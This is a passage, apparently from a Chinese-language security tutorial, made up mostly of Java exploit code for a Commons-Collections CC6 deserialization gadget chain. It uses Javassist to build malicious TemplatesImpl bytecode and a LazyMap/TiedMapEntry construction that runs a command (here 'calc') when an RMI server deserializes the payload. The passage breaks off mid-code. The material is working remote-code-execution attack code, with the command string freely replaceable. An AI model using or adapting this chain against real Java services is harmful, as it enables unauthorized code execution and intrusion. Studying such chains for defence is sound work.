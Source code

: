 ```java
                    "com.sun.org.apache.xml.internal.dtm.DTMAxisIterator iterator, " +
                    "com.sun.org.apache.xml.internal.serializer.SerializationHandler handler) {\n" +
                    "    }", ctClass);
            ctClass.addMethod(ctMethod2);
            byte[] bytes = ctClass.toBytecode();
            ctClass.defrost();
            return bytes;
        } catch (Exception e) {
            e.printStackTrace();
            return new byte[]{};
        }

    }
}
```
然后用最基本的 TemplateImpl 的 CC6，不过这里返回的是 HashMap 的对象，因为利用点--- RMI 远程方法调用的参数首先会被 Stub 序列化，再传入 Server 端进行反序列化，省去了我们自己序列化的过程
```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javassist.*;

import java.io.ByteArrayOutputStream;
import java.io.FileOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.HashMap;
import java.util.HashSet;
import java.util.Map;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

public class EvilClass {
    public static Object getEvil() throws Exception {
        TemplatesImpl templates=new TemplatesImpl();
        Class tc=templates.getClass();
        Field nameFiled=tc.getDeclaredField("_name");
        nameFiled.setAccessible(true);
        nameFiled.set(templates,"aaa");

        Field bytecodesField=tc.getDeclaredField("_bytecodes");
        bytecodesField.setAccessible(true);
        byte[] code= new EvilClassWrite().GetShortTemplatesImpl("calc");
        byte[][] codes={code};
        bytecodesField.set(templates,codes);


        InvokerTransformer invokerTransformer=new InvokerTransformer("newTransformer",null,null);
        HashMap<Object,Object> map=new HashMap<>();
        Map<Object,Object> lazymap = LazyMap.decorate(map,new ConstantTransformer(1));

        TiedMapEntry tiedMapeEntry=new TiedMapEntry(lazymap,templates);

        HashMap<Object,Object> map2= new HashMap<>();
        map2.put(tiedMapeEntry,"bbb");
        lazymap.remove(templates);
```